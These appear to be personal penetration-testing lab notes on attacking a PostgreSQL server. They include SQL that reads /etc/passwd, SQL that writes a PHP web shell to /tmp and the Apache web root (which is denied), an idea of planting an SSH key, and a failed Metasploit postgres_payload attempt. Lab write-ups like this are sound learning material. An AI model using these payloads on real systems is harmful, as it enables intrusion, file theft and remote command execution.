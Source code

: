 Good info 

![[PG/Linux/attachments/Pasted image 20250710195424.png]]

Reading /etc/passwd 

```
create table hack(file TEXT);  
COPY hack FROM '/etc/passwd';  
select * from hack;
```

![[PG/Linux/attachments/Pasted image 20250710195700.png]]
username: `wilson`

**Putting a file on the PostgreSQL Server**

a cheeky php shell
```
create table hack2(put TEXT);  
INSERT INTO hack2(put) VALUES('<?php @system("$_GET[cmd]");?>');  
COPY hack2(put) TO '/tmp/temp.php';
```

Can I access this from the site? - will check soon

I probably can if I can figure out the web root of the site?

Here are some default locations for apache web root so will try to put the php shell here
![[PG/Linux/attachments/Pasted image 20250710200333.png]]

```
create table shell(put TEXT);  
INSERT INTO shell(put) VALUES('<?php @system("$_GET[cmd]");?>');  
COPY shell(put) TO '/var/www/html/temp.php';
```

![[PG/Linux/attachments/Pasted image 20250710200630.png]]
- I got permission denied

![[PG/Linux/attachments/Pasted image 20250710200735.png]]

Well web shell may not be the path, but maybe I can put an ssh key in wilson's home folder 

# Metasploit 

```
use exploit/linux/postgres/postgres_payload
```
![[PG/Linux/attachments/Pasted image 20250710210055.png]]

![[PG/Linux/attachments/Pasted image 20250710210201.png]]
- this didn't work
- probably bc arch is off?
